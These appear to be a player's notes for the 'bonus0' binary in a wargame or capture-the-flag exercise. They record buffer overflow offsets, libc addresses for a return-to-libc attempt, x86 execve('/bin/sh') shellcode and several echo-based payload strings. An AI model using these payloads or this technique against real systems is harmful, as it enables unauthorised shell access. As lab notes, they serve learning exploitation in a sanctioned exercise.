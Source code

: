 # bonus0

## Useful infos

first string: `AAAABBBBCCCCDDDDEEEE`
second string `1111222233334444555`
segfaults on call to `0x34333333` -> `111122223[3334]444555`

### ret2libc try

address of system: `0xb7e6b060` -> `\x60\xb0\xe6\xb7`
address of "/bin/sh": `0xb7f8cc59` -> `\x59\xcc\xf8\xb7`

exploit: `echo -e "111122223\x60\xb0\xe6\xb74445555"`
exploit: `echo -e "\x59\xcc\xf8\xb7\x59\xcc\xf8\xb73\x60\xb0\xe6\xb7444555"`
exploit: `echo -e "\x59\xcc\xf8\xb7\x59\xcc\xf8\xb7\x59\xcc\xf8\xb7\x59\xcc\xf8\xb7\x59\xcc\xf8\xb7"`

### shellcode try

0xffffca50
0xffffca16
0xffffdd96

Shellcode:  
`\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80`

exploit:  
`echo -e "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0"`
`echo -e "\x0b\xcd\x80\x31\xc0\x40\xcd\x80333344\x96\xdd\xff\xff5"`
